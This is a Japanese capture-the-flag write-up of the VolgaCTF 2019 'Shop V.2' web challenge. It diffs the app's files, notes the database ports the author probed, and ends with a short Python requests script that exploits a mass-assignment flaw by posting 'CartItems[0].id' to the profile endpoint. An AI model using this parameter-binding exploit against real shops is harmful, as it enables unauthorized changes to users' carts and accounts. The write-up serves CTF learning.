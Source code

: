 # VolgaCTF 2019 "Shop V.2" writeup

## 問題

![問題](./001.png)

## 解法

これはいろいろ試したのだがShopを勘違いしていた僕にとって難しすぎた。

Shopと同様にwarファイルはダウンロードできた。
差分はShopContrller.javaとかごく一部。
単純に買えなくなったというだけの変更に見える。



```bash-statement
# cd shop-1.0.0
# find . -printf "%p %s\n" > ../shop-1.0.0_list.txt
# cd ../shop-1.0.1
# find . -printf "%p %s\n" > ../shop-1.0.1_list.txt
# diff ../shop-1.0.0_list.txt ../shop-1.0.1_list.txt
69c69
< ./WEB-INF/classes/application.properties 165
---
> ./WEB-INF/classes/application.properties 358
71c71
< ./WEB-INF/classes/data.sql 329
---
> ./WEB-INF/classes/data.sql 247
77c77
< ./WEB-INF/classes/ru/volgactf/shop/controllers/ShopController.class 7402
---
> ./WEB-INF/classes/ru/volgactf/shop/controllers/ShopController.class 6911
```

```WEB-INF/classes/application.properties``` を見るとデータベース関連のやつが追加されているので外部から接続できたりするのか？と思いJDBCやらでいろいろ接続しようとしたけどそもそもポートが空いてない。
接続試してみたのは
- 1433
- 3306
- 5432
- 5433
- 5434
- 5435
- 8082
- 9082
- 9092

のあたり。

```
spring.mvc.view.prefix=/WEB-INF/templates/
spring.mvc.view.suffix=.jsp
spring.datasource.driver-class-name=org.h2.Driver
spring.datasource.initialization-mode=always
server.address=127.0.0.1
spring.jpa.properties.hibernate.temp.use_jdbc_metadata_defaults=false
spring.jpa.hibernate.ddl-auto=create
spring.jpa.database-platform=org.hibernate.dialect.H2Dialect
```

ShopController.javaはbuyができなくなるという修正が加えられているだけ。

```text
99,112c99

<         final Product product = this.productDao.geProduct(productId);

<         if (product != null) {

<             if (product.getPrice() <= user.getBalance()) {

<                 user.setBalance(Integer.valueOf(user.getBalance() - product.getPrice()));

<                 user.getCartItems().add(product);

<                 this.userDao.update(user);

<                 redir.addFlashAttribute("message", (Object)"Successful purchase");

<                 return "redirect:profile";

<             }

<             redir.addFlashAttribute("message", (Object)"Not enough money");

<         }

<         else {

<             redir.addFlashAttribute("message", (Object)"Product not found");

<         }

---

>         redir.addFlashAttribute("message", (Object)"Too easy");
```


結局他の人のwriteupを見ないと分からなかった。
ポイントは以下の2点。
- POSTで変数を書き換える
- CartItemsの配列を追加する

writeupを参考にPythonのrequestsを使って書いていたのだけど、どうもうまく動かず。
結局Cookieを使ってセッション管理するときはrequests.Sessionを使った方が良いということが分かった。
配列をPOSTするときに「```CartItems[0]```」とかするのもポイントかな。
結局のところControllerの中で```getXXXX```で値が取れる場合、```XXXX```はGETパラメータやPOSTパラメータで書き換えることができるようだ。

```python
import requests

login_url = "http://shop2.q.2019.volgactf.ru/loginProcess"
target_url = "http://shop2.q.2019.volgactf.ru/profile"

payload0 = {'name': 'wani', 'pass': 'xxxxxxxx'}
payload1 = {'name': 'wani', 'CartItems[0].id': 4}

s = requests.Session()
r = s.post(login_url, data=payload0)
r = s.post(target_url, data=payload1)
print(r.text)
```

## 参考

- [VolgaCTF 2019 Qualifier - CTF](https://tuanlinh.gitbook.io/ctf/volgactf-2019-qualifier#web-shop-2)
